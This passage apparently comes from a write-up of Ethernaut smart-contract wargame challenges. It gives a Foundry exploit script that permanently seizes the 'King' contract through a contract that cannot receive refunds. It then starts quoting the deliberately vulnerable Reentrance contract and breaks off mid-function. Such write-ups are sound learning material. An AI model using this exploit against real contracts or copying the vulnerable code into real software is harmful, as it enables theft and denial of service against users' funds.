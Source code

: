 `KingSolve.s.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {King} from "../src/King.sol";

contract KingSolve is Script {
    function run() external{
        vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
        King king = King(payable(0xCF1EE241C905C39Add26C82d4a2CCcBC6D070fC2));
        uint _prize = king.prize();
        console.log("Current King : ", king._king());
        console.log("Current Prize : ",_prize);

        new Attack().exploit{value: _prize}();
        console.log("Final King : ", king._king());
        vm.stopBroadcast();
    }
}

contract Attack{
    King public king = King(payable(0xCF1EE241C905C39Add26C82d4a2CCcBC6D070fC2));

    function exploit() public payable{
        address(king).call{value : msg.value}("");
    }

}
```

To run script : 

```bash
$ source .env
$ forge script script/KingSolve.s.sol:KingSolve --rpc-url $RPC_URL --broadcast
```

# 10 Reentrancy

`Reentrancy.sol`

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
```